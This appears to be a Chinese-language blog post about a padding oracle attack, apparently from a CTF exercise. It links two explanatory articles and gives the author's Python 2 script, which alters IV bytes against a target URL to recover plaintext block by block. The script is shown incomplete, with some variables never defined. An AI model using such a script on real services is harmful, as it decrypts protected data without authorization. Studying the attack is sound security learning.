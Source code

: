 关于Padding Oracle Attack，是一个一言难尽的话题，这两篇文章讲的比较清楚：

[传送门1](https://www.cnblogs.com/LittleHann/p/3391393.html)

[传送门2](https://www.cnblogs.com/zlhff/p/5519175.html)

简而言之，就是不断调整iv使其能够返回正确的解密结果从而推断出明文，废话不多说，展示一下花了一天时间整出来的渣渣代码：

```
#coding=utf-8
import base64,requests,re,threading,json

def my_xor2(str1,str2):
    new_str = ""
    for i in range(len(str1)):
        new_str = new_str + chr(ord(str1[i])^ord(str2[i]))
    return new_str

def is_padding_right(url):
    r = requests.get(url)
    if key_str not in r.text:
        print r.text
        return True
    else:
        return False

b64d = lambda x: base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))
b64e = lambda x: base64.encodestring(x).replace('=','~').replace('/','!').replace('+','-')

def attack(block_index):
    iv = cipher_blocks[block_index]
    cipher = cipher_blocks[block_index+1]
    iv_chs = [iv[i:i+1] for i in range(0,len(iv),1)] #拆分iv为数组便于处理
    iv_index = 15
    m_value = ['a']*16 #用于存储中间值

    while(iv_index &gt; -1):
        if iv_index != 15:
            for temp in range(iv_index+1,16):
                iv_chs[temp] = chr(ord(m_value[temp]) ^ (16 - iv_index)) #更新iv

        for num in range(256):
            iv_chs[iv_index] = chr(num)
            data = ""
            data = data.join(iv_chs)
            data = data + cipher

            new_url = ""
            new_url = url + b64e(data)    
            #print new_url
            if is_padding_right(new_url):
                m_value[iv_index] = chr(num^(16-iv_index))
                break

        iv_index = iv_index - 1
        print "block_index:",block_index,"[iv_index:",iv_index*"#","]"

    m_value_str = ""
    m_value_str = m_value_str.join(m_value)
    plain[block_index] = my_xor2(m_value_str,iv)
    print "Get plain block:#",block_index,":",plain[block_index]

url = "http://35.190.155.168/ebe58e9d6e/?post="

```